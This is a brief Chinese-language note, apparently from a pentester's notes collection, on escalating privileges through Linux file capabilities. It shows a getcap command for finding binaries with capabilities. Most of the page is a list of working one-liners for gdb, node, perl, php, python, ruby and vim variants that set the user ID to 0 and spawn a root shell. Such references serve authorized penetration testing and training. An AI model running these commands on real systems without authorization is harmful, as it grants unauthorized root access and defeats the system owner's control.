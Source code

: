 # 文章
[Linux系统利用可执行文件的Capabilities实现权限提升-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1731464)<br />Linux 2.2以后增加了capabilities的概念，可以理解为水平权限的分离。以往如果需要某个程序的某个功能需要特权，我们就只能使用root来执行或者给其增加SUID权限，一旦这样，我们等于赋予了这个程序所有的特权，这是不满足权限最小化的要求的；在引入capabilities后，root的权限被分隔成很多子权限，这就避免了滥用特权的问题，我们可以在[capabilities(7) - Linux manual page](http://man7.org/linux/man-pages/man7/capabilities.7.html)中看到这些特权的说明
### 搜索方法
```shell
getcap -r / 2>/dev/null
```
![](./images/20231017_2359178299.png)
### 一些利用方法
利用命令提权，可以参考[GTFOBins](https://gtfobins.github.io/#+capabilities)（有些命令不适合所有终端）
```shell
# gbd的利用方法
./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit

#node的利用方法
./node -e 'process.setuid(0); child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'

#perl的利用方法
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

#php的利用方法
./php -r "posix_setuid(0); system('/bin/sh');"

#pythond的利用方法
./python -c 'import os; os.setuid(0); os.system("/bin/sh")'

#ruby的利用方法
./ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'

#rview的利用方法
./rview -c ':lua os.execute("reset; exec sh")'

#rvim的利用方法
./rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

#view的利用方法
./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

#vim的利用方法
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

#vimdiff的利用方法
./vimdiff -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
